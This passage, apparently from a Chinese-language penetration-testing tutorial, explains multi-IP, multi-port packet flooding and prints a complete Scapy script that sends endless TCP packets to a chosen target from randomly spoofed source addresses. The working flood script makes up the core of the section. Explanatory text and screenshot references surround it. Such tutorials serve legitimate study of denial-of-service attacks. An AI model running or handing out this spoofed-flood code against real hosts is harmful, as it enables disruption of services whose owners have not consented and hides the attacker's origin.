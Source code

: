 我对端口使用了`for`循环，让我们检查攻击者的输出：

![Single IP multiple port](graphics/8583OT_06_11_new.jpg)

来自攻击者机器的数据包

前面的截图显示数据包发送成功。现在，检查目标机器上的输出：

![Single IP multiple port](graphics/8583OT_06_12.jpg)

目标计算机中出现的数据包

在前面的屏幕截图中，矩形框显示端口号。我将让您用一个端口创建多个 IP。

## 多 IP 多端口

在本节中，我们将讨论具有多个端口地址的多 IP。在这次攻击中，我们使用不同的 IP 将数据包发送到目标。多个 IP 表示欺骗 IP。以下程序将从伪造的 IP 发送大量数据包：

```
import random
from scapy.all import *
target = raw_input("Enter the Target IP ")

i=1
while True: 
  a = str(random.randint(1,254))
  b = str(random.randint(1,254))
  c = str(random.randint(1,254))
  d = str(random.randint(1,254))
  dot = "."
  src = a+dot+b+dot+c+dot+d
  print src
  st = random.randint(1,1000)
  en = random.randint(1000,65535)
  loop_break = 0
  for srcport in range(st,en): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    loop_break = loop_break+1
    i=i+1
    if loop_break ==50 :
      break
```

在前面的代码中，我们使用了`a`、`b`、`c`和`d`变量来存储四个随机字符串，范围从 1 到 254。`src`变量存储随机 IP 地址。在这里，我们使用了`loop_break`变量在 50 个数据包之后中断`for`循环。这意味着 50 个数据包来自一个 IP，而其余代码与前一个相同。

让我们检查一下`mimp.py`程序的输出：

![Multiple IP multiple port](graphics/8583OT_06_13_new.jpg)
